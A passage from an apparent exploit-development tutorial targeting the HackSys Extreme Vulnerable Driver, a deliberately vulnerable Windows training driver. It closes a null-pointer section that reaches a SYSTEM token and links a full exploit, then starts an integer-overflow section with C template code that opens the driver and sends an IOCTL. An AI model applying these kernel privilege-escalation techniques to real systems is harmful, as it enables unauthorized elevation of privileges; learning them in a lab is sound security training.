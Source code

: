 Now we rebuild the code and then run it and our process has a SYSTEM token :D

The full exploit for this vulnerability can be found [here](https://github.com/sam-b/HackSysDriverExploits/tree/master/HackSysNullPointerExploit).
## Integer Overflow
Once again start off with our template code with the correct IOCTL code in a new Visual Studio project.
<pre>
#include "stdafx.h"
#include &lt;Windows.h>

#define HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW CTL_CODE(FILE_DEVICE_UNKNOWN, 0x809, METHOD_NEITHER, FILE_READ_DATA | FILE_WRITE_DATA)

int _tmain(int argc, _TCHAR* argv[])
{
	DWORD lpBytesReturned;
	LPCSTR lpDeviceName = (LPCSTR) "\\\\.\\HackSysExtremeVulnerableDriver";

	printf("Getting the device handle\r\n");
	//HANDLE WINAPI CreateFile( _In_ lpFileName, _In_ dwDesiredAccess, _In_ dwShareMode, _In_opt_ lpSecurityAttributes,
	//_In_ dwCreationDisposition, _In_ dwFlagsAndAttributes, _In_opt_ hTemplateFile );
	HANDLE hDriver = CreateFile(lpDeviceName,			//File name - in this case our device name
		GENERIC_READ | GENERIC_WRITE,					//dwDesiredAccess - type of access to the file, can be read, write, both or neither. We want read and write because thats the permission the driver declares we need.
		FILE_SHARE_READ | FILE_SHARE_WRITE,				//dwShareMode - other processes can read and write to the driver while we're using it but not delete it - FILE_SHARE_DELETE would enable this.
		NULL,											//lpSecurityAttributes - Optional, security descriptor for the returned handle and declares whether inheriting processes can access it - unneeded for us.
		OPEN_EXISTING,									//dwCreationDisposition - what to do if the file/device doesn't exist, in this case only opens it if it already exists, returning an error if it doesn't.
		FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,	//dwFlagsAndAttributes - In this case the FILE_ATTRIBUTE_NORMAL means that the device has no special file attributes and FILE_FLAG_OVERLAPPED means that the device is being opened for async IO.
		NULL);											//hTemplateFile - Optional, only used when creating a new file - takes a handle to a template file which defineds various attributes for the file being created.

	if (hDriver == INVALID_HANDLE_VALUE) {
		printf("Failed to get device handle :( 0x%X\r\n", GetLastError());
		return 1;
	}

	printf("Got the device Handle: 0x%X\r\n", hDriver);
	DeviceIoControl(hDriver,
		HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW,
		NULL,
		0,
		NULL, //No output buffer - we don't even know if the driver gives output #yolo.
		0,
		&lpBytesReturned,
		NULL); //No overlap
